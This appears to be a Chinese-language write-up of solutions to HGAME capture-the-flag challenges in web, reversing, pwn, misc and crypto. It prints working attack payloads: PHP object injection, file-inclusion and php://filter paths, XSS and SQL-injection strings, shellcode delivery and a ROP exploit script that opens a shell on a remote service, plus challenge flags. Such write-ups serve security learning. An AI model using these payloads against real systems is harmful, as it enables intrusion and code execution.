

这周赶上过年，两整天做不了题，写得比较赶（现在是凌晨五点，失眠……干脆写 wp），见谅。
{ Web }
Random? [250]
根据提示，访问 /.random.php.swp 并 vim -r random.php 得到源码。以“unserialize ctf -魔术”为关键词在谷歌搜到这篇文章。知识点：PHP 的引用赋值，构造 ?emmm=O:4:"emmm":2:{s:6:"public";N;s:6:"secret";R:2;} 即可得到 Flag：hgame{&_Is_wondeRful!@# }
草莓社区-1 [100]
随便点一个猫片，发现地址栏为 http://118.25.18.223:10011/show_maopian.php?mao=1.jpg，文件引入很可能不带过滤，则构造 ?mao=../flag.php 可得到 flag.php 的内容 PD9waHAKCSRmbGFnPSJoZ2FtZXsjTWEwX3BpNG5faGFPX2s0bl9tYSN9IjsK，解 base64 可得 Flag：hgame{#Ma0_pi4n_haO_k4n_ma# }
草莓社区-2 [150]
直接构造 ?mao=../flag.php 发现不返回 flag，则用 php 伪协议 php://filter/read=convert.base64-encode/resource=../flag.php 可得到数据 UEQ5d2FIQUtDU1JtYkdGblBTSm9aMkZ0WlhzaGJUUnZYM0JwTkc1ZlEyaGhUMTlvWVc5ZmEyRnVJWDBpT3dvPQ==，解两次 base64（一次是伪协议的）可得 Flag：hgame{!m4o_pi4n_ChaO_hao_kan!}
xss-1 [100]
<img src=“1” onerror=“alert`1`” /> 可得 Flag：hgame{#X5s_soo00o_e4sy#}
知识点：括号被过滤掉时，可以用 ` 绕过。
xss-2 [150]
第一想法是 a” autofocus onfocus=“alert`1`，没想到在火狐上不能用，换个思路：a” src=“a” onerror=“alert`1`” type=“image 可得 Flag：hgame{#LuCkY_y0u_a1ert_l#}
知识点：
1. autofocus
2. 只有第一个 type 会生效
3. 属性值里 HTML 实体优先解析
最简单的sql题 [50]
送分题，万能密码 ' or '1'='1，Flag：hgame{@s0ng_fen_ti@}
{ Re }
miaomiaowu [200]
观察发现是用 py 写的，而且有 py2exe 字样，找到一个 unpy2exe 工具，得到一个 pyc 文件，再次反编译得到源码，整理后如下：
# Embedded file name: fvck.py
import md5
import random
import string
def print_key(arg='1543788'):
arg = int(arg)
for i in range(95, int(arg / 2 + 1)):
if arg % i == 0:
print(hex(i), ' ')
return print_key(arg / i)
print(arg)
def get_md5(arg):
m = md5.new()
m.update(arg)
return m.hexdigest()
def get_base64(arg='Fuck1ng11'):
# string.oo_0
_all = list(string.ascii_uppercase + string.ascii_lowercase) + list(string.digits) + ['+', '/']
bin_ed = [ '{:0>6}'.format(str(bin(_all.index(i))).replace('0b', '')) for i in arg if i != '=' ]
result = ''
count = arg.count('=')
while bin_ed:
four_letter = ''.join(bin_ed[:4])
if len(four_letter) % 8 != 0:
four_letter = four_letter[0:-2 * count]
o1_o1 = [ four_letter[x:x + 8] for x in [0, 8, 16] ]
o1_o1 = [ int(x, 2) for x in o1_o1 if x ]
result += ''.join([ chr(x) for x in o1_o1 ])
bin_ed = bin_ed[4:]
return result # RnVjazFuZzEx, 9 -> 12
if __name__ == '__main__':
print "Welcome to hammer's miaomiaowu"
while True:
print 'Give me your choice:'
print '1) fuck hammer'
print '2) hit hammer'
print '3) save hammer'
choice = raw_input()
if choice == '1':
lll = raw_input('plz input your public key:')
if lll == '1543788':
print 'Here is your key:'
print_key(lll)
elif choice == '2':
print 'Hammer was the mouth of the b_all, only issued a "wuwu" voice, but he wrote a figure on the w_all: 1543788'
elif choice == '3':
print "You must give me the flag , or you can't save hammer jiejie as your rbq!\n"
print 'But I must know who are you , give me your key:'
key = raw_input()
flag = raw_input('Now , give me your flag:')
flag_p3 = flag[-4:-1] # length == 3
if flag_p3 != key:
print 'Unknown key!'
print '(You are taken as an intruder, captured as rbp.)'
exit()
get_base64 = open('1.jpeg', 'r')
get_base64.seek(1024, 0)
o = get_md5(get_base64.read(1))
get_base64.seek(512, 1)
oo = get_md5(get_base64.read(1))
get_base64.seek(256, 1)
ooo = get_md5(get_base64.read(1))
get_base64.seek(128, 1)
ooo0 = get_md5(get_base64.read(1))
print 'Pay attention, The program may be abnormal'
if o != '0d61f8370cad1d412f80b84d143e1257': # C
print 'Error flag!'
print '(You are taken as an intruder, captured as rbp.)'
exit()
if oo != 'cfcd208495d565ef66e7dff9f98764da': # 0
print 'Error flag!'
print '(You are taken as an intruder, captured as rbp.)'
exit()
if ooo != '8277e0910d750195b448797616e091ad': # d
print 'Error flag!'
print '(You are taken as an intruder, captured as rbp.)'
exit()
if ooo0 != 'e4da3b7fbbce2345d7772b0674a318d5': # 5
print 'Error flag!'
print '(You are taken as an intruder, captured as rbp.)'
exit()
flag_p2 = o + oo + ooo + ooo0 # C0d5
flag_p1 = flag[6:15] # 9, hgame{ Fuck1ng11 _ C0d5 _ orz }
if unknown_function(flag_p1) != 'RnVjazFuZzEx':
print 'Error flag5!'
print '(You are taken as an intruder, captured as rbp.)'
exit()
print 'Yeah! You got it!'
print 'hgame{' + flag_p1 + '_' + flag_p2 + '_' + flag_p3 + '}'
Iccanobif [250]
照着这里的流程 https://reverseengineeringtips.blogspot.com/2014/12/unpacking-jar2exe-21-extracting-jar.html?showComment=1480364662658#c447064983483780468 把 jar 提取出来：

逆操作：
skey = [ord(i) for i in "ainvzhuangaishenghuo"] # 0 - 19
cipher = [9, 14, 15, 27, 31, 19, 27, 23, 20, 15, 20, 8, 29, 15, 58, 20, 15, 13, 27, 48, 9, 8, 1, 41, 13, 9, 27, 28]
flag = list("x" * 28)
for n, i in enumerate(flag):
flag[n] = chr(cipher[n] ^ skey[n % 20])
print(''.join(flag))
{ Pwn }
ez_shellcode [100]
直接拿 pwntools 里现成的：
from pwn import *
conn = remote("111.230.149.72", 10004)
conn.recvuntil('> ', drop=True)
conn.sendline(asm(shellcraft.i386.linux.sh(), arch='i386'))
conn.interactive()
ez bash jail [100]
胡乱试出来的，输入 $0 后即可直接 cat flag。至于为什么可以，还没时间细究。
hacker_system_ver1 [100]
应该属于入门级别的 ROP？
from pwn import *
conn = remote('111.230.149.72', 10005)
file = ELF('./hacker_system_ver1')
puts = file.plt['puts']
start_main_got = file.got['__libc_start_main']
main = 0x08048C1D # file.symbols['main']
payload = '@'*64 + p32(puts) + p32(main) + p32(start_main_got)
conn.sendlineafter('> ', '3')
conn.sendlineafter('length:', '100')
conn.sendlineafter('name:', payload)
conn.recvuntil('not find!!\n', drop=True)
start_main = u32(conn.recv(4))
print('[@] __libc_start_main address: ' + hex(start_main))
str_bin_sh_offset = 0x15902b - 0x18540
system_offset = 0x3A940 - 0x18540
payload = '@'*64 + p32(start_main + system_offset) + p32(0xdeadbeef) + p32(start_main + str_bin_sh_offset)
conn.sendlineafter('> ', '3')
conn.sendlineafter('length:', '100')
conn.sendlineafter('name:', payload)
conn.interactive()
{ Misc }
咻咻咻 [200]
”锁没上好“，伪加密，用 ZipCenOp.jar 处理掉伪加密后得到音频文件。用 Adobe Audition 打开，放大后发现音频前方有一些可能代表二进制的数据，用 https://github.com/ragibson/Steganography 这个工具得到 aGdhbWV7aDRwcHlfeGl1X1hpdV94eHh4aVVVfQ==，解密可得 hgame{h4ppy_xiu_Xiu_xxxxiUU}
White cosmos [150]
解压得到由 tab 跟空格组成的文件，共 223 个字符，应该不是二进制，考虑是摩尔斯电码。如果 tab 为 - 而空格为 , 则可逐步恢复得到 6867616d657b57656c63306d655f325f57684974655f73703463657d，s.decode(‘hex’) 即可得到 hgame{Welc0me_2_WhIte_sp4ce}
所用网站：http://www.atool.org/morse.php 不知道是不是网站的 bug，后边很多零，反正我手动逐步删除前边几个字符便可逐步得到上边的完整密文。
easy password [150]
既然给了提示，直接暴力解题：

{ Crypto }
easy rsa [150]
因为 r = pq - (p+q) + 1 已知，又根据 ed = 1 (mod r) 可求 d，知道 d 后直接解密即可。
def ext_Euclid(n, m):
# 这个函数代码网上找来的，懒得写咯
if (m == 0):
return 1, 0
else:
x, y = ext_Euclid(m, n%m)
x, y = y, (x - (n/m) * y)
return x, y
d = ext_Euclid(e, r) # 求得初值为负数，+ r 即可
The same simple RSA [150]
公钥只有 256 位，直接拿去 http://factordb.com/ 分解得到 p，q。
Caesar&&Caesar [200]
写了一小段代码：
cipher = '...(cipher)...'.split()
n = 0
d = {}
dis = []
for i in cipher:
n += len(i)
if i in d:
dis.append((n - d[i], i))
d[i] = n
# 得到：
# [(28, 'sw'), (259, 'hal'), (231, 'phw'), (224, 'tb'), (210, 'ktz'), (28, 'tb'), (343, 'o'), (14, 'cy'), (63, 'o'), (231, 'aar'), (406, 'e'), (413, 'n'), (469, 'vj'), (497, 'alv'), (469, 'sw'), (560, 'ff')]
稍微分析一下可猜测密钥长度为 7，然后我就扔这里解密了=。=：https://www.guballa.de/vigenere-solver 密钥为 another，谷歌一下可知道是百年孤独。
violence [200]
因为相同的字母总是会得到相同的密文，把数字转换成正常一点的 zxjfghjfz_hg_gdvfz_d_khg_xm_uhxcfqrf 之后，直接扔 quipquip.com 可得到：sometimes_it_takes_a_bit_of_violence